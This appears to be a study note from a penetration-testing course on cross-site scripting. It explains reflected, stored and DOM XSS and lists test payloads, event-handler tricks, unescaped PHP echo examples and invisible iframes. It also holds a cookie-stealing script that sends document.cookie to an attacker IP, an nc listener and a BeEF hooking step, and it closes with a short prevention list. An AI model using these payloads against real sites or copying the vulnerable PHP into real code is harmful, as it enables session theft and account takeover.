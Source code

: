 # [XSS] Cross Site Scripting
**Links**
https://portswigger.net/web-security/cross-site-scripting
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)



**YouTube**

https://www.youtube.com/watch?v=3pXeSkM7m3M&list=PLZOToVAK85MoYN8LF4vsGNtgwmLinMnW3

https://www.youtube.com/watch?v=3pXeSkM7m3M&list=PLZOToVAK85MqxEPGXA80NPMZEczZfA9ej&index=60

https://www.youtube.com/watch?v=I0SusAlT1wY&list=PLZOToVAK85MqxEPGXA80NPMZEczZfA9ej&index=63



```reStructuredText
XSS vulnerabilities are caused due to unsanitized user input that is then displayed on a web page in HTML format. These vulnerabilities allow malicious attackers to inject client side scripts, such as JavaScript, into web pages viewed by other users.

Although XSS attacks don't directly compromise a machine, these attacks can still have significant impacts, such as cookie stealing and authentication bypass, redirecting the victim’s browser to a malicious HTML page, and more."

**Only JavaScript or VbScript embedded in auth.y.com can read cookies belonging to auth.y.com**

reflected = non persistence, echoed back immediately. In the HTTP request!
stored = persistence, stored in web application
DOM XSS = lives within the DOM environment, a page's client-side script itself and soes not reach server-side code
```



**Camouflage URL**

- tinyurl
- iframes
- link in a targeted email

`<plaintext> tag/payload for testing`

<script>alert('abc');</script>
<script>alert(document.cookie)</script>

`string.fromCharCode(xxx, xxx, xxx)`



**Payload example**

```php+HTML
<script>
x = '<!--<script>' < /script>/ - alert(1)
</script>
```

**PHP code injection**

```php+HTML
<?
echo '<h4>Hello ' . $_GET['name'] . '</h4>';
?>
```



**Browser Redirection and IFRAME Injection**

```html
.<iframe SRC="http://$ip/report" height = "0" width ="0"></iframe>
invisible iframe
.<iframe src="http://<me>:<myport>/something" height="0" width="0"></iframe> 
```

**Stealing Cookies and Session Information**

```html
.<iframe src="http://10.11.0.5/report" height = "0" width = "0"></iframe>
.<script> new Image().src="http:10.11.0.126/bogus.php?output="+document.cookie; </script>

nc -nlvp 80

<img src="logo.png" alt="<?= $_GET['name'] ?>">
```



### Exploitation with Beef

https://www.youtube.com/watch?v=gU_zv8HIG2g&list=PLZOToVAK85MqxEPGXA80NPMZEczZfA9ej&index=177

https://www.youtube.com/watch?v=t-44ZsaeIQE&list=PLZOToVAK85MqxEPGXA80NPMZEczZfA9ej&index=199



Put the hook link in the web page by XSS



## With event handlers

```javascript
abc" onmouseover=alert("XSS") "
onclick, onload, onerror etc

<a onmouseover="alert('xss')">xss link</a>
<IMG SRC=# onmouseover="alert('xss')">
<IMG SRC=/ onerror="alert('xss')"></img>
```




## How to prevent XSS
- Encoding: < becomes `&lt;`
- Filtering: <script> becomes script
- Validating: compare input against white list
- Sanitization: combination of escaping, filtering and validation